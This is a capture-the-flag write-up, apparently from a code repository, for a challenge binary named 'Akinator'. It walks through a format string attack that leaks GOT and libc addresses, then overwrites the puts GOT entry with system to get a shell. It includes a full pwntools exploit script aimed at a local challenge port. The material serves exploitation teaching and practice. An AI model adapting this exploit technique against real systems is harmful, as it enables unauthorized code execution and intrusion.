



### Writeup for the Challenge

#### Overview

This challenge involves exploiting a Format String vulnerability to leak the addresses of the puts in the GOT table and system address in the libc. then call puts from plt with '/bin/sh' as an argument to get a shell.

#### Steps to Exploit

0. **Checksec**:


    

    - Since RELRO is Partial, we can overwrite the GOT table.
    - Since PIE is enabled, we need to leak the address of puts in the GOT table and leak system address in the libc.
    
1. **Decompiler View (Ghidra)**:


    

    - The program has two functions: `Akinator()` and `nameChecker()` and `print_error()`.
    - `Akinator()` reads the user input and calls `nameChecker()` to check if the input start with '/bin/sh' and calls `print_error()` if it does not.


2. **Get the Address of puts in the GOT Table and system in the libc using gdb**:

    

    -Using gdb to get the address of puts in the GOT table and system in the libc in running process by `attach ${pid}` in gdb then  using the command `got` and `print system` if you use gef or pwndbg.

3. **Get Leaked Addresses using Format String Vulnerability**:

    - leaked addresses must be in the form of `0x55...` and `0x7f...` for the address of puts in the GOT table and system in the libc respectively to ensure that the addresses are correct.
    - using `%p %13$p` to leak the address that we need.
    - calculate the offset of the leaked addresses and the address of puts in the GOT table and system in the libc that we got from gdb.

4. **Calculate the offest for format string payload**:

    - You can use simple way by using this input `ABCD %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p` then look where `ABCD` hex value is in the output to calculate the offset.
    - In this case the offset is 6. 

5. **Replace name by /bin/sh**:

    - After leaking the addresses, and sending the format string payload to overwrite the GOT entry of the put function with the address of the system function, the program will ask if you want to enter a name again.
    - Respond with 'y' to enter '/bin/sh' as the name to be the argument for the system function.
    - The program will then ask if you want to enter a name again. Respond with 'n' to make the program use the put function that will call the system function after changing the GOT entry.

6. **Exploit**:


```python
from pwn import *
# Define the offsets between the addresses of the functions in the debugger
# and the addresses of the functions in the binary. These offsets are calculated
# based on the difference between the addresses of the functions in the debugger
# and the leaked addresses of the same functions from the binary.

# Address of the system function in the debugger
systemDbgAddr = 0x7f85ad0b3d70 

# Leaked address to calculate the system function address
leakedAddrToGetSystem = 0x7f85ad0f13f5

# Calculate the difference (offset) between the addresses of the system function
systemdiff = systemDbgAddr - leakedAddrToGetSystem

# Address of the put function in the debugger
putAddrDbg = 0x55c78376c000

# Leaked address to calculate the put function address
leakedAddrToGetput = 0x55c78376a008

# Calculate the difference (offset) between the addresses of the put function
putDiff = putAddrDbg - leakedAddrToGetput

# Start a process or a remote connection to the binary 'Akinator'
# Uncomment the appropriate line for either a local process or a remote connection
# p = process('./Akinator')
p = remote('localhost', 2001)

# Set the binary context for pwntools
context.binary = ELF('./Akinator')
context.arch = 'amd64'

# Receive data until the prompt appears
p.recvuntil(': ')

# Send an initial format string to leak an address
p.sendline('%p %13$p')

# Receive the line containing the leaks and decode it
allLeaks = p.recvline().decode().strip()
leaks = allLeaks.split(' ')

# Extract the specific leaks needed
toGetputGot = int(leaks[14], 16)
togetSystemLeak = int(leaks[15], 16)

# Log the leaked address to get the system function
log.info('togetSystemLeak: ' + hex(togetSystemLeak))

# Calculate the actual system function address using the offset
systemAddr = togetSystemLeak + systemdiff 
log.info('systemAddr: ' + hex(systemAddr))

# Log the leaked address to get the put function GOT entry
log.info('toGetputGot: ' + hex(toGetputGot))


# Calculate the actual put function GOT entry address using the offset
putGot = toGetputGot + putDiff
log.info('putGot: ' + hex(putGot))

# Receive data until the next prompt
p.recvuntil('(y/n)')
p.sendline('y')
p.recvuntil(': ')

# Create the format string payload to overwrite the GOT entry for the put function
fmt = fmtstr_payload(6, {putGot: systemAddr}, write_size='short')

# Send the format string payload
p.sendline(fmt)

# Receive data until the next prompt and respond with 'y' to enter '/bin/sh'
p.recvuntil('(y/n)')
p.sendline('y')
p.recvuntil(': ')

# Send the command to open a shell
p.sendline('/bin/sh')

# Receive data until the next prompt and respond with 'n' to make program use put that will call system after changing the GOT entry
p.recvuntil('(y/n)')
p.sendline('n')

# Interact with the shell
p.interactive()

```
